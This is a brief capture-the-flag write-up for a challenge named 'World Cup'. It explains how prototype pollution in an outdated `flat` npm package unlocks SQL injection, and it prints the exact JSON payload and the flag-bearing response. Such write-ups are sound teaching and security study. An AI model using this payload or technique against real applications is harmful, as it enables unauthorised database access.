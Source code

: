 # World Cup

## Write-up (brief)

1. Prototype pollution in outdated npm package `flat`
2. Pollute undefined property `process.env.TABLE_NAME` to unlock SQL injection in `database.js` (`getCountry` function)
3. Payload:

```json
{
  "country.name": "Qatar",
  "__proto__.TABLE_NAME":"teams WHERE code = 'FLAG' and name != ?; --"
}
```

4. Response:

```json
{
  "name":"DevFest22{p0LLutED_iNJ3ct10N_ftW}",
  "code":"FLAG"
}
```
